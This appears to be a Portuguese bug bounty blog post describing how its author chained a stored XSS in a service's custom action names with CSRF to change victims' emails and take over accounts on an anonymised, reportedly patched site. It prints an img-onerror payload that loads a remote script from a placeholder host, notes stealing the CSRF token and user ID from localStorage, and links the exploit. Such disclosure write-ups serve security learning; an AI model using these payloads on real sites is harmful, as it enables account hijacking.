 ```yaml
---
layout: post
title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
date:   2019-06-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
</p>

<p align="justify">
No vendor, havia uma aplicação que permite você possa criar uma instância e adicionar vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
<br>
Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço. Dentro de um serviço, era possível adicionar ações customizadas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
</p>

<p align="justify">
Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
<br>
Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
<br>
<br>
e o alerta apareceu :) (IEEEERRRRRRRRR)
<br>
<img src="/images/bug_bounty/bb01/bb01-01.png"/>
<br>
<br>
Bom, neste ponto, eu já tinha um XSS Stored. Dei uma olhada de como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive uma sacada... eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
</p>

<p align="justify">
Basicamente, o CSRF consistia em uma request POST simples para o endpoint que realizava a troca do email, decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
<br>
<br>
Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
<br>
<img src="/images/bug_bounty/bb01/bb01-02.png">
<br>
<br>
As ações disponíveis para os usuários ficariam dessa forma:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
</p>

<p align="justify">
Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
<br>
<img src="/images/bug_bounty/bb01/bb01-08.png"/>
</p>

<p align="justify">
Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
<br>
</p>

<p align="justify">
Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
<br>
<br>
Primeiramente, o email da vítima permanece normalmente:
<br>
<img src="/images/bug_bounty/bb01/bb01-04.png">
<br>
<br>
Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Ao clicar na última ação, o pop-up era mostrado:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png">
<br>
<br>
E em background a ação da troca de email era realizada:
<br>
<img src="/images/bug_bounty/bb01/bb01-05.png">
<br>
<br>
Como resultado, o email da vítima foi trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-06.png">
<br>
<br>
Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-07.png">
<br>
<br>
Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade e tentei ao máximo deixar o mesmo mais anônimo possível :).
</p>

<p align="justify">
Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a> 
</p>